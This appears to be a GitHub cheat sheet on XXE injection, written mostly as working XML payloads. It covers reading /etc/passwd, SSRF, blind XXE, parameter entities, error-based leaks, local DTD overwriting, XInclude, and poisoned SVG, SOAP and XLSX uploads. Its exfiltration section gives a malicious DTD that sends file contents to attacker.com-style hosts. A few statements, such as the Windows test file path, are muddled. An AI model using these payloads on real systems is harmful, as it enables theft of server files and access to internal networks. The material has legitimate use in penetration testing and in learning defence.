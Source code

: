 # XXE Injection

The XML format allows users to specify entities which can be used inside the XML document using the formant `&entityname;`. These entities can be fetched over the network or can be read from a file using payloads such as:

``` xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://evil.com"> ]>
```

This opens up the door to two different vulnerabilities: Retrieving Local Files and Server Side Request Forgery

## Retrieving Files

Even though XXE can be used to read files, it often can\'t be used to list the contents of a directory. However, we can test whether an XXE vulnerability exists, we ca try and read a file that exists on every system and that can be read by every user. In linux, that file is `/etc/passwd` and in windows, that is `/c:/server_files/application.conf`. An example test payload for linux would be:

``` xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY passwd SYSTEM "file:///etc/passwd"> ]>
<yeet>&passwd;</yeet>
```

## SSRF

### Regular XXE

This bug can be tested by sending an XML document with an external entity that points to a known resource on the network. If a DNS or HTTP request is sent to that server after sending the XML request, an XXE vulnerability exists. However, this method doesn\'t always work since some systems block external entities on a network. Here is an example payload:

``` xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY network SYSTEM "http://evil.com"> ]>
<yeet>&network;</yeet>
```

### Blind XXE

Sometimes, when a server\'s response doesn\'t contain any part of the sent XML body, an XXE vulnerability might still exist. This can be tested using the Burp Collaborator.

### XML Parameter Entities

Sometimes,applications block using entities for security reasons. However you can still inject external entities using *XML Parameter Entities*. Here is a sample payload:

``` xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % param SYSTEM "http://evil.com"> %param; ]>
<yeet>data</yeet>
```

### Data Ex-filtration

1.  With SSRF

    Ex-filtrating data from blind XXE vulnerabilities is possible using a malicious [DTD](https:www.w3schools.com/xml/xml_dtd.asp). In order to exploit it, we need a server to serve a malicious DTD. Here is an example DTD:

    ``` xml
    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
    %eval;
    %exfiltrate;
    ```

    You can then host this in a file under your server, accessible from a URL like `http://attacker.com/extractpasswd.dtd`. You can then use this file in an XXE payload like this:

    ``` xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://attacker.com/extractpasswd.dtd"> %xxe;]>
    <yeet>data</yeet>
    ```

    This method doesn\'t work in multiline files however, so it can be used to leak files like `/etc/hostname`.

2.  With Error Messages

    If a web application returns error messages which can possibly contain details of an entity, this too can be exploited using a DTD. DTD Document:

    ``` xml
    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
    %eval;
    %error;
    ```

    XXE Payload:

    ``` xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://attacker.com/error.dtd"> %xxe;]>
    <yeet>data</yeet>
    ```

3.  Repurposing existing DTD files in a server

    When out-of-band interactions are disabled by the web server\'s network settings or any other method, it won\'t be possible to include external DTD files. Hence, Blind XXE injection can only be exploited using a known DTD files in a system and using that file to leak data in the form of error messages. However, this DTD file should first be *edited* with a malicious XXE payload that accesses system files. Thankfully, XML allows us to **overwrite** some entries in an external DTD. For instance, if in a server there is a DTD file named /etc/DTDs/localdtd.dtd that also contains an entity named **localentity**, we can use the following payload to **overwrite** that entity.

    ``` xml
    <!DOCTYPE foo [
    <!ENTITY % local_dtd SYSTEM "file:///etc/DTDs/localdtd.dtd">
    <!ENTITY %  localentity'
    <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
    <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
    &#x25;eval;
    &#x25;error;
    '>
    %local_dtd;
    ]>
    ```

    Locating such files should be fairly straightforward since the web application returns errors from the xml parser, we can simply check whether a file exists by sending a benign payload and checking whether the server returns an error(the file doesn\'t exist) or not(the file exists)

    ``` xml
    <!DOCTYPE foo [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/test.dtd">
    %local_dtd;
    ]>
    ```

## Exploiting XInclude

Sometimes, even if you don\'t send XML data to a website, the application could still use the input you provided it to create an XML document. However, if the proper sanitisations are not made on the input, the final XML could be edited which can again be used to leak file information or to cause out-of-band interactions. Here is a sample payloads that uses xinclude:

``` xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

## File Upload Attacks

In theory, any file upload that uses xml and is parsed on the back-end side can be exploited. There are different methods for different filetypes and each should be tested thoroughly.

### Image Uploads with SVG

Image upload forms can be vulnerable to XXE if they allow uploading SVG files. Here is a sample payload that should be tested:

``` xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
  <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

### SOAP XXE

This payload should be tested on every parameter where a SOAP query could be formed in the backend:

``` xml
<soap:Body>
  <foo>
    <![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://x.x.x.x:22/"> %dtd;]><xxx/>]]>
  </foo>
</soap:Body>
```

### DOCX

A great tool exists for injecting in docx files: <https://github.com/BuffaloWill/oxml_xxe>

### XLSX

1.  Extract the excel file:

```{=html}
<!-- -->
```
    $ mkdir XXE && cd XXE
    $ unzip ../XXE.xlsx
    Archive:  ../XXE.xlsx
      inflating: xl/drawings/drawing1.xml
      inflating: xl/worksheets/sheet1.xml
      inflating: xl/worksheets/_rels/sheet1.xml.rels
      inflating: xl/sharedStrings.xml
      inflating: xl/styles.xml
      inflating: xl/workbook.xml
      inflating: xl/_rels/workbook.xml.rels
      inflating: _rels/.rels
      inflating: [Content_Types].xml

1.  Add your blind XXE payload in `xl/workbook.xml` or add your payload in `xl/sharedStrings.xml`

xl/workbook.xml

``` xml
<xml...>
  <!DOCTYPE x [ <!ENTITY xxe SYSTEM "http://YOURCOLLABORATORID.burpcollaborator.net/"> ]>
  <x>&xxe;</x>
  <workbook...>
```

xl/sharedString.xml

``` xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE foo [ <!ELEMENT t ANY > <!ENTITY xxe SYSTEM "http://YOURCOLLABORATORID.burpcollaborator.net/"> ]>
<sst xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" count="10" uniqueCount="10"><si><t>&xxe;</t></si><si><t>testA2</t></si><si><t>testA3</t></si><si><t>testA4</t></si><si><t>testA5</t></si><si><t>testB1</t></si><si><t>testB2</t></si><si><t>testB3</t></si><si><t>testB4</t></si><si><t>testB5</t></si></sst>
```

1.  rebuild the Excel file:

```{=html}
<!-- -->
```
    $ zip -r ../poc.xlsx *
    updating: [Content_Types].xml (deflated 71%)
    updating: _rels/ (stored 0%)
    updating: _rels/.rels (deflated 60%)
    updating: docProps/ (stored 0%)
    updating: docProps/app.xml (deflated 51%)
    updating: docProps/core.xml (deflated 50%)
    updating: xl/ (stored 0%)
    updating: xl/workbook.xml (deflated 56%)
    updating: xl/worksheets/ (stored 0%)
    updating: xl/worksheets/sheet1.xml (deflated 53%)
    updating: xl/styles.xml (deflated 60%)
    updating: xl/theme/ (stored 0%)
    updating: xl/theme/theme1.xml (deflated 80%)
    updating: xl/_rels/ (stored 0%)
    updating: xl/_rels/workbook.xml.rels (deflated 66%)
    updating: xl/sharedStrings.xml (deflated 17%)
